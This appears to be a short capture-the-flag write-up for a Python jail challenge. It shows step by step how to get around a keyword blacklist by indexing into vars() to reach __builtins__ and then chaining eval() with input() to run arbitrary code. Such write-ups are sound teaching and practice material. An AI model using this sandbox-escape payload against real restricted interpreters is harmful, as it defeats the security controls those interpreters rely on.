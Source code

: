 # Golfing 100 Character

u can see at the <a href="blacklist.py">code</a>, it still using LITE ban and u can use more than 100 character.

First, lets use inline for loop to iterate __vars()__ and get the builtins

```
[x for x in vars()]
```

<img src='img/1.png' width='400px'>

u can see if the __\_\_builtins\_\___ function is on array, so we need to know where is the index of that function. Cuz if we call the function normally, it will make the payload longer.

<img src='img/2.png' width='400px'>

after that, using this payload will call the __\_\_builtins\_\___ function.

```
[x for x in vars()][6]
```

<img src='img/3.png' width='400px'>

now lets try to put in inside the __vars()__

```
vars(vars()[[x for x in vars()][6]])
```

<img src='img/4.png' width='800'>

now take the __eval()__ and __input()__

<img src='img/5.png' width='400'>

it works, now put the __input()__ inside the __eval()__

<img src='img/6.png' width='500'>